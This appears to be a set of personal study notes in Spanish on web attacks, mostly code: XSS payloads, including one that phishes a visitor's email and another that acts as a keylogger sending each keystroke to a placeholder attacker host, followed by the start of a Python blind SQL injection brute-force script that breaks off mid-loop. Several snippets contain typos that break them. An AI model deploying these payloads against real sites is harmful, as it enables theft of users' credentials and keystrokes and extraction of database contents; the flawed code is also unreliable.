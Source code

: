 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

xss
```python
<script>alert("XSS")</script>
```
xss
```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

xss keylogger
```python
<script>
	var k = "";
	document.onkeypress = funtion(e){
	e = e weindow.event;
	k += e.key
	var i = new Imagen();
	i.src = "http://MI-IP:PUERTO/" + k;
	}
</script>
```

```python
 #!/usr/bin/python3
import requests
import signal
import sys
import time
import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
Characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando progreso de fuerza bruta")

	time.sleep(2)

	p2 = log.progress("Datos extraidos")

	extracted_info = ""

	for position in range(1, 200)
		for character in range(33, 126)
```